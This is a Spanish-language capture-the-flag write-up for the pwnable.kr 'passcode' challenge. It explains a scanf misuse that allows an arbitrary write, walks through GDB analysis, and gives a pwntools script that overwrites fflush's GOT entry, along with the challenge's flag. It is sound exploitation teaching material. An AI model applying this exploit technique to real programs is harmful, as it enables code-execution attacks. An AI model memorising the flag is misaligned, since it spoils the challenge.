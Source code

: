 ```yaml
---
title: pwnable.kr passcode - Arbitrary write y sobrescritura de GOT
author: c4rta
date: 2023-01-18
categories: [Explotacion binaria, pwnable.kr]
tags: [GOT overwrite, arbitrary write]
---
```


## Analisis del binario

### Funcion main

```c
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Lo unico que hace es llamar a dos funciones: ```welcome``` y ```login``` e imprimer unos cuantos mensajes

### Funcion welcome

```c
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

Vemos que se declara un buffer de 100, basicamente esta funcion toma 100 caracteres los cuales los guarda en la variable ```name``` e imprime el mensaje ```Welcome``` y lo que tenga ```name```

### Funcion login

```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

Después de eso tenemos la funcion ```login()``` que lee dos números enteros, luego los compara con dos constantes y, si coinciden obtenemos la bandera

Todo parece muy simple, pero si intentamos correrlo pasandole esos valores con los que se compara, veremos algo como esto:

```
passcode@pwnable:~$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta
Welcome c4rta!
enter passcode1 : 338150
Segmentation fault (core dumped)
```
Peto, pero como es que peto si parece que espera un tipo de dato int y encima el que le pasamos es igual a ```338150``` que es el primer valor con el que se compara.

Aqui una recomendacion es que si tiene el codigo fuente, lo vuelvan a compilar para ver si tiene algunos warnings y en este caso nos muestra eso:

```
passcode.c: In function ‘login’:
passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    scanf("%d", passcode1);
    ^
```

Con esto nos podemos dar cuenta el input que se guarda en ```passcode1``` no se interpreta como un int, si no como una direccion, de hecho ahi nos dice que espera un ```int *```, esto deriva de un ```arbitrary write```, en la cual es la variable ```passcode1``` podemos poner lo que queramos

### Depurandolo con GDB

Aqui me ire directamente a la funcion ```login()``` para que puedan ver que las variables se tratan como direcciones (les recomiendo que lo pongan con sintaxis intel, la sintaxis at&t esta medio pedorra: ```set disassembly-flavor intel```)

Quiero destacar algo, generalmente en ensamblador para acceder a las varibles de una funcion se hace uso del ```EBP```, esto lo digo ya que podemos tener una idea de donde se encuentran nuestras variables, quiero resaltar esto:

![](/assets/img/commons/passcode/1.png)

Puede ser que lo que esta en ```ebp-0x10``` sea la variable passcode asi que para corroborar eso pondre un breakpoint alli e ejecutare el programa:


Como se puede ver:

```
(gdb) x/xw $ebp-0x10
0xffefef58:	0xf7586cbb
```
La variable ```passcode1``` (ebp-0x10) esta apuntando a ```0xf7586cbb```, que es la direccion en la que esta escribiendo en ```scanf()``` 

Ademas podemos ver que en las comparaciones:

```
cmp    DWORD PTR [ebp-0x10],0x528e6
DWORD PTR [ebp-0xc],0xcc07c9
```

Esta comparando direcciones ```0x528e6``` y ```0xcc07c9``` no un valor, entonces el código intenta cargar la dirección de ```passcode1``` y ```passcode2``` que obviamente no existen. Esa es la razon por la que el programa peta


## Explotacion

Si sabemos que tenenemos una escritura arbitraria para poder sobrescribir el valor de ```passcode1```, ¿Entonces como nos aprovechamos de esto?, pues debemos de aplicar otra tecnica llamada ```GOT overwrite``` esto es por que la funcion ```fflush()```esta despues de ```scanf()```, gracias a que las funciones como printf, scanf, fflush no están presentes en el código, solo tiene la referencia a aquellas funciones que son cargadas desde otro binario y esas referencias se almacenan en GOT, cuando el binario tiene la información necesaria para buscar estas funciones referenciadas durante el tiempo de carga y la tabla GOT se llena con esas referencias, el segmento en el que reside GOT tiene permisos de escritura, y si apuntamos nuestra variable ```passcode1``` a una de las entradas de la tabla GOT, podemos redirigir la ejecución del código, que rico, ¿No?.

### Desplazamiento para passcode1

Lo primero que hay que obtener es el desplazamiento para llegar a ```passcode1```, y es bien facil, simplemente podemos hacer una resta de la ubicacion de la variable ```name``` la que recibe nuestro primer input, con la ubicacion de la variable ```passcode``` y la variable ```name``` esta ```0x70``` por debajo de ```EBP```, deja te muesto.

En la funcion ```welcome()``` hay una linea como esta:

```0x0804862f <+38>:	lea    edx,[ebp-0x70]```

La cual usa el registro ```EDX``` este registro es usado para menejar las operaciones I/0, asi que pondre un breakpoint donde se recibe nuestro input

```b *0x08048643```

Ahora si yo muestro lo que tiene ```ebp-0x70``` veremos algo como esto:

```
(gdb) r
Starting program: /home/passcode/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta --> Mi input

Breakpoint 1, 0x08048643 in welcome ()
(gdb) x/1s $ebp-0x70
0xffa1a2c8:	"c4rta" --> El valor que tiene
(gdb) 
```

Ahora esta comprobado que en ```ebp-0x70``` esta la variable ```name```.

Asi que para sacar el desplazamiento para llegar a ```passcode1``` hacemos ```0x70 - 0x10```, y esto nos da ```96``` es decimal

### Direccion de fflush

Primero hay que mostrar el contenido de la funcion: 

```
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```

Vemos que la entrada de ```fflush``` esta con la direccion ```0x804a004``` y su valor es ```0x08048436``` que es cuando se hace el ```push```. y esta direccion la ocupamos ya que sobrescribiremos ```fflush``` para que llame a ```/bin/cat flag``` que esta en la direccion ```0x080485e3```

### Crafteando el exploit

```py
from pwn import *

context.update(arch="i386", os="linux")
p = process("./passcode")

payload = b'A' * 96             # desplazamiento para passcode
payload += p32(0x0804a004)      # direccion de la entrada GOT de fflush
payload += str.encode(str(0x080485e3))  # direccion de bin/cat flag

print(p.recvline())
p.sendline(payload)
print(p.recvall())
```
Y nos da la flag la cual es: ```Sorry mom.. I got confused about scanf usage :(```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/passcode/waifu.gif)